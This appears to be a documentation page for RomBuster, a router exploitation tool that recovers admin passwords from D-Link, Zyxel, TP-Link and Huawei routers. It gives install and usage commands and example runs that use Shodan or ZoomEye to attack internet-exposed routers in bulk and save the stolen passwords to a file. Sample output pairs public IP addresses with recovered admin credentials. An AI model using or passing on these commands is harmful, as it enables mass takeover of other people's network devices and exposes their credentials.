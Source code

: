 ```yaml
---
title : "RomBuster"
# pre : ' '
description : "RomBuster is a router exploitation tool that allows to disclosure network router admin password."
date : 2021-07-06T11:24:47+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## RomBuster

Is a router exploitation tool that allows to disclosure network router admin password.

**Features**:

* Exploits vulnerabilities in most popular routers such as D-Link, Zyxel, TP-Link and Huawei.
* Optimized to exploit multiple routers at one time from list.
* Simple CLI and API usage.

### Installation

```plain
pip3 install git+https://github.com/EntySec/RomBuster
```

### Usage

```plain
rombuster [-h] [-o OUTPUT] [-i INPUT] [-a ADDRESS] [--shodan SHODAN] [--zoomeye ZOOMEYE] [-p PAGES]
```

### Flags

```plain
RomBuster is a router exploitation tool that allows to disclosure network router admin password.

optional arguments:
  -h, --help            show this help message and exit
  -o OUTPUT, --output OUTPUT
                        Output result to file.
  -i INPUT, --input INPUT
                        Input file of addresses.
  -a ADDRESS, --address ADDRESS
                        Single address.
  --shodan SHODAN       Shodan API key for exploiting devices over Internet.
  --zoomeye ZOOMEYE     ZoomEye API key for exploiting devices over Internet.
  -p PAGES, --pages PAGES
                        Number of pages you want to get from ZoomEye.
```

### Examples

#### Exploiting single router

Let's hack my router just for fun.

```plain
rombuster -a 192.168.99.1
```

#### Exploiting routers from Internet

Let's try to use Shodan search engine to exploit routers over Internet.

```plain
rombuster --shodan [API-KEY]
```

```plain
$ rombuster --shodan [REDACTED]
[*] Authorizing Shodan by given API key...
[+] Authorization successfully completed!
[+] (187.200.68.1:80) - admin:3931623066
[+] (2.191.126.139:80) - admin:admin
[*] Exploiting...
```

#### Exploiting routers from input file

Let's try to use opened database of routers.

```plain
rombuster -i routers.txt -o passwords.txt
```

NOTE: It will exploit all routers in `routers.txt` list by their addresses and save all obtained passwords to `passwords.txt`.

### URL list

* [Github.com - RomBuster](https://github.com/EntySec/RomBuster)
